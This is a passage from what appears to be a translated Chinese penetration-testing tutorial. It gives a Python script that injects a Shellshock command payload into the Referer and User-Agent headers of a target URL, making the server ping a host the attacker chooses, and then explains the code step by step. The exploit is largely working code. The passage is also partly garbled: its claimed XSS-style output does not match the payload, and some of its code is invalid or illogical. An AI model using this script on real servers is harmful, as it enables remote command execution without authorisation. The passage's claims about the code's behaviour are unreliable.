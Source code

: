确定要测试的 URL。确定目标网页后，将其作为`sys.argv`传递给脚本：

## 怎么做…

您的脚本应与以下脚本相同：

```
import requests
import sys
url = sys.argv[1]
payload = "() { :; }; /bin/bash -c 'ping –c 1 –p pwnt <url/ip>'"
headers ={}
r = requests.head(url)
for header in r.headers:
  if header == "referer" or header == "User-Agent": 
    headers[header] = payload
req = requests.post(url, headers=headers)
```

该脚本不会提供输出，因为它以功能的管理端为目标。但是，您可以通过以下方式轻松设置它，以便在每个循环上提供输出：

```
Print "Submitted "+payload
```

每次都会返回以下内容：

```
Submitted <script>alert(1);</script>
```

## 它是如何工作的…

我们导入这个脚本所需的库，并以`sys.argv`函数的形式进行输入。这有点重复，但它完成了工作。

我们将有效载荷声明为单个实体。如果希望在服务器上执行多个操作，可以将其作为有效负载，类似于前面的操作。我们还为标题有效负载组合创建一个空字典，并向目标 URL 发出`HEAD`请求：

```
payload = "() { :; }; /bin/bash -c 'ping –c 1 –p pwnt <url/ip>'"
headers ={}
r = requests.head(url)
```

此处设置的有效负载将 ping 您在`<url/ip>`空间设置的任何服务器。它将在该 ping 中发送一条消息，即`pwnt`。这允许您确定服务器实际上已被破坏，而不仅仅是随机服务器。

然后，我们通过检查我们在初始`HEAD`请求中拉入的每个头，并检查是否有`referrer`或`User-Agent`头，这些头容易受到炮击攻击。如果这些标头存在，我们将针对该标头发送攻击字符串：

```
for header in r.headers:
  if header == "referer" or header == "User-Agent": 
    headers[header] = payload
```

一旦我们确定了我们的头是否存在，并且针对它们设置了攻击字符串，我们就启动请求。如果成功，消息应显示在我们的日志中：

```
req = requests.post(url, headers=headers)
```